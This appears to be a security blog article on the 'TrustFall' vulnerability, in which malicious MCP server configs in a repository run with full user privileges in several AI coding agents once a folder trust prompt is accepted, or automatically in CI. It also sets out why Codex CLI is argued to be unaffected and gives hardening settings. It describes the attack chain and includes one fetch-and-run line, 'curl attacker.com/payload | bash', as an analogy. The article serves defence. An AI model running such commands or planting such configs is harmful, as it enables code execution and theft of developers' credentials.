


# The TrustFall Vulnerability: How One Keypress Gives MCP Servers Full System Access — and Why Codex CLI Is Not Affected


---

On 7 May 2026, Adversa AI published **TrustFall**, a vulnerability class that turns the Model Context Protocol server mechanism in four major coding agents — Claude Code, Gemini CLI, Cursor CLI, and GitHub Copilot CLI — into a one-click remote code execution vector[^1]. A single Enter keypress on a folder trust prompt spawns attacker-defined MCP servers as unsandboxed OS processes with the developer's full privileges[^2]. In CI/CD pipelines, no keypress is required at all[^3].

Codex CLI is conspicuously absent from the affected list. This article dissects the TrustFall kill chain, examines why each vulnerable tool falls, and maps the architectural choices that keep Codex CLI out of scope.

---

## The TrustFall Kill Chain

The attack follows a three-stage flow from malicious repository to full compromise:



### Stage 1 — Poisoned Repository

The attacker creates an attractive-looking repository (a useful library, a tempting template) and includes one or more configuration files that define MCP servers[^1]:

- **Claude Code**: `.claude/settings.json` with `enableAllProjectMcpServers: true` or `.mcp.json` with command definitions
- **Gemini CLI**: Project-level `.mcp.json` with server definitions
- **Cursor CLI**: `.cursor/mcp.json` with equivalent payloads
- **Copilot CLI**: Project MCP configuration files

The `command` field in these JSON files can reference any executable or embed payloads directly in arguments, making detection by static analysis impractical[^2].

### Stage 2 — Trust Prompt Collapse

When the developer opens the repository, the affected tool presents a trust prompt. All four tools default to "Yes/Trust"[^1]. Earlier versions of Claude Code (pre-2.1) explicitly warned about MCP server execution and offered an option to proceed with MCP servers disabled. That warning was removed in version 2.1, replaced by a broader "Quick safety check" dialogue that does not mention MCP servers[^2].

### Stage 3 — Unsandboxed Execution

Once trust is accepted, MCP servers execute as **native OS processes with the full privileges of the user**[^3]. They are:

- Not sandboxed
- Not confined to the project directory
- Not restricted to any subset of the filesystem or network

The result is functionally identical to running `curl attacker.com/payload | bash` — but laundered through a trust prompt that most developers will accept without reading.

---

## The CI/CD Amplifier

The most dangerous variant removes the keypress entirely. Claude Code's GitHub Action runs non-interactively without a trust dialogue[^2]. A pull request from an outside contributor can ship a malicious `.mcp.json`, and the moment the CI pipeline runs against that branch, the MCP server starts and reaches whatever credentials the runner can access: deploy keys, signing certificates, cloud tokens, npm publish tokens[^3].

This converts a single malicious PR into a supply chain compromise at the distribution layer.

---

## Vendor Responses

Anthropic reviewed the Adversa AI report and declined it, stating that accepting "Yes, I trust this folder" constitutes consent to everything the project ships, including MCP definitions[^2]. This is a defensible position in isolation, but it collapses when the trust prompt no longer explicitly mentions MCP servers, and when CI mode removes the prompt altogether.

⚠️ At the time of writing, public responses from Google, Cursor, and GitHub regarding TrustFall have not been documented in the primary sources.

---

## Why Codex CLI Is Not Affected

Codex CLI is absent from TrustFall's affected list because its architecture disagrees with the assumptions the attack requires at every stage. Five structural defences compose to make the kill chain non-viable.

### 1. No Project-Level MCP Auto-Approval

Codex CLI does not support an `enableAllProjectMcpServers` equivalent. MCP servers are configured in `config.toml` — either at the user level (`~/.codex/config.toml`) or in a trusted project's `.codex/config.toml`[^4]. Crucially, project-scoped `.codex/` configuration **only loads when the project has been explicitly trusted**, and even then, individual MCP servers are declared by name with explicit connection parameters[^5].

There is no mechanism to auto-approve all servers defined in a project file with a single flag. Each server must be individually declared.

### 2. Project Trust Skips Configuration Entirely

When a project is marked untrusted, Codex skips the entire project-scoped `.codex/` layer — including project-local config, hooks, and rules[^5]. This means a malicious `.codex/config.toml` containing MCP server definitions in an untrusted repository is never read, never parsed, and never executed.



### 3. Kernel-Level Sandbox by Default

Even if an MCP server is configured and running, commands executed through Codex CLI's agent loop operate inside a **kernel-level sandbox**[^6]:

| Platform | Mechanism | Default Constraints |
|----------|-----------|-------------------|
| macOS | Seatbelt (SBPL profiles) | No network, workspace-only writes |
| Linux | Bubblewrap (user namespaces) + Landlock | Mount isolation, PID namespace, no network |
| Windows | Restricted tokens + DACL | Desktop-level isolation |

The sandbox default is `workspace-write` — the agent can edit files within the project directory but cannot access the network or write outside the workspace[^6]. This means that even a successfully spawned malicious process would be unable to exfiltrate credentials, phone home, or modify system files.

This is a fundamental architectural difference. In the TrustFall-affected tools, MCP servers run as **native OS processes with full privileges**[^1]. In Codex CLI, agent-executed commands are confined by kernel enforcement that the process cannot bypass.

### 4. Granular Approval Policies for MCP Tools

Codex CLI's approval policy system extends to MCP tool invocations. The `mcp_elicitations` configuration allows administrators to control whether MCP tools that advertise side effects can execute without user approval[^7]:

```toml
# In config.toml or requirements.toml
[approval_policy]
mcp_elicitations = true  # require approval for MCP tool calls with side effects
```

Destructive MCP tool calls — those annotated with a destructive flag — **always require approval** regardless of the overall approval policy[^7]. This provides a second layer of defence even for legitimately configured MCP servers.

### 5. Enterprise Enforcement via requirements.toml

For organisations deploying Codex CLI at scale, managed `requirements.toml` files can enforce constraints that individual developers cannot override[^8]. These constraints sit at the top of the configuration precedence hierarchy — above CLI flags, above profile values, above all project and user configuration:

```toml
# requirements.toml — enterprise-enforced
[sandbox]
allowed_modes = ["workspace-write", "read-only"]

[mcp_servers]
allowed_sources = ["user"]  # block project-scoped MCP entirely

[approval_policy]
mcp_elicitations = true
```

This allows security teams to prevent project-scoped MCP server definitions from loading across the entire organisation, eliminating the TrustFall attack surface by policy[^8].

---

## Defence-in-Depth Comparison

The following table maps each stage of the TrustFall kill chain against the defences available in affected tools versus Codex CLI:

| Kill Chain Stage | Affected Tools | Codex CLI |
|-----------------|---------------|-----------|
| MCP server auto-approval via project config | Single flag enables all servers | No equivalent flag; servers declared individually |
| Trust prompt bypasses MCP warning | Warning removed in Claude Code 2.1 | Project config skipped entirely when untrusted |
| MCP servers run unsandboxed | Native OS process, full user privileges | Kernel-level sandbox (Seatbelt/Bubblewrap/DACL) |
| CI/CD runs without trust prompt | Non-interactive mode trusts project files | `codex exec` honours permission profiles and sandbox |
| Enterprise-wide lockdown | Limited to individual developer caution | `requirements.toml` enforces policy hierarchy |

---

## Hardening Codex CLI Against Future MCP Risks

Codex CLI's architecture provides strong defaults, but defence-in-depth means not relying on any single layer. The following configuration hardens your setup against this class of attack:

```toml
# ~/.codex/config.toml

# Only allow read-only or workspace-write sandbox modes
[sandbox]
allowed_modes = ["workspace-write", "read-only"]

# Require approval for all MCP tool calls with side effects
[approval_policy]
mcp_elicitations = true

# Lock MCP servers to user-level config only
# (prevents project-scoped MCP server injection)
# Use explicit tool allow-lists per server
[mcp_servers.my-trusted-server]
type = "stdio"
command = "/usr/local/bin/my-server"
enabled_tools = ["read_data", "search"]
disabled_tools = ["execute", "write", "delete"]
```

For CI/CD pipelines using `codex exec`, enforce a restrictive permission profile:

```bash
codex exec \
  --permission-profile ":workspace" \
  --sandbox-mode workspace-write \
  --ephemeral \
  "Run the linting pipeline"
```

The `--ephemeral` flag ensures no state persists between runs, and `:workspace` limits filesystem access to the project directory[^9].

---

## Lessons for the Broader Ecosystem

TrustFall exposes a design tension in AI coding agents: the push for frictionless MCP integration directly conflicts with supply chain security. The affected tools chose convenience — auto-approve MCP servers at folder trust, run them unsandboxed — and created an attack surface that is trivially exploitable.

Codex CLI's approach inverts these priorities:

1. **Explicit over implicit** — no auto-approval flags, no "enable everything" shortcuts
2. **Sandbox first** — kernel enforcement is the default, not an opt-in
3. **Policy hierarchy** — enterprise constraints override everything, including developer convenience
4. **Layered approval** — destructive MCP tools always require explicit consent

These are not accidental properties. They are the consequence of treating the agent as a **principal that must be constrained**, not a tool that inherits the developer's full trust[^6].

---

## What to Watch

The TrustFall class is unlikely to be the last MCP-based supply chain vector. As MCP adoption accelerates across the ecosystem, expect:

- **MCP server signing** — cryptographic verification of server provenance before execution
- **Per-tool capability declarations** — allowing agents to restrict what each MCP server can request
- **Network-scoped MCP sandboxing** — isolating MCP server network access independently of the host sandbox
- ⚠️ **Cross-agent MCP attacks** — where a compromised MCP server in one tool is used to poison shared configuration consumed by another

Codex CLI's current architecture handles the first generation of these threats well. The open question is whether the MCP specification itself will evolve to include the trust primitives that would make TrustFall structurally impossible across all implementations.

---

## Citations

[^1]: Adversa AI, "TrustFall: Coding Agent Security Flaw Enables One-Click RCE in Claude, Cursor, Gemini CLI and GitHub Copilot," 7 May 2026. [https://adversa.ai/blog/trustfall-coding-agent-security-flaw-rce-claude-cursor-gemini-cli-copilot/](https://adversa.ai/blog/trustfall-coding-agent-security-flaw-rce-claude-cursor-gemini-cli-copilot/)

[^2]: Developer-Tech, "AI Coding CLIs Face TrustFall Risk from One-Click MCP Server Execution," 7 May 2026. [https://www.developer-tech.com/news/ai-coding-clis-trustfall-mcp-server-execution-risk/](https://www.developer-tech.com/news/ai-coding-clis-trustfall-mcp-server-execution-risk/)

[^3]: SecurityWeek, "AI Coding Agents Could Fuel Next Supply Chain Crisis," May 2026. [https://www.securityweek.com/ai-coding-agents-could-fuel-next-supply-chain-crisis/](https://www.securityweek.com/ai-coding-agents-could-fuel-next-supply-chain-crisis/)

[^4]: OpenAI, "Model Context Protocol – Codex," 2026. [https://developers.openai.com/codex/mcp](https://developers.openai.com/codex/mcp)

[^5]: OpenAI, "Config Basics – Codex," 2026. [https://developers.openai.com/codex/config-basic](https://developers.openai.com/codex/config-basic)

[^6]: OpenAI, "Sandbox – Codex Concepts," 2026. [https://developers.openai.com/codex/concepts/sandboxing](https://developers.openai.com/codex/concepts/sandboxing)

[^7]: OpenAI, "Agent Approvals & Security – Codex," 2026. [https://developers.openai.com/codex/agent-approvals-security](https://developers.openai.com/codex/agent-approvals-security)

[^8]: OpenAI, "Managed Configuration – Codex," 2026. [https://developers.openai.com/codex/managed-configuration](https://developers.openai.com/codex/managed-configuration)

[^9]: OpenAI, "Command Line Options – Codex CLI," 2026. [https://developers.openai.com/codex/cli/reference](https://developers.openai.com/codex/cli/reference)
